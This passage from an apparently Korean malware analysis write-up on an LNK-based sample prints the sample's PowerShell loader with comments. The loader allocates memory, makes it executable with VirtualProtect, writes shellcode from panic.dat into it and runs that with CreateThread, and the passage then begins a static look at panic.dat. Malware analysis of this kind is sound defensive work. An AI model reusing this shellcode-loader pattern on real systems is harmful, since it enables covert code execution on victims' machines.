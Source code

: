 

#### 4. Thread를 생성하여 shellcode 실행

```powershell
# panic.dat의 내부 데이터 길이를 획득
$byteCount = $exeFile.Length;

# GlobalAlloc으로 heap 할당
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);

# VirtualProtect로 rwx 권한 부여
$old = 0;
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);

# 할당한 heap에 panic.dat의 내부 데이터 작성
for($i = 0; $i -lt $byteCount; $i++) {
	[System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]);
};

# CreateThread를 호출하여 작성한 panic.dat 내부 데이터 실행.
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);

# 생성한 Thread가 종료될 때까지 대기
$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
```



### ▪ <u>panic.dat 기초 분석</u>

#### 간단한 정적 분석

cff explorer를 사용하여 **panic.dat** 파일을 확인해보니, 내부에 shellcode가 존재하였습니다.

<img src="../images/2024-12-07-LNK-Malware-Analysis/IMG-lnk 분석-20241208165231186.png" alt="IMG-lnk 분석-20241208165231186" style="zoom: 80%;" />

#### 간단한 동적 분석
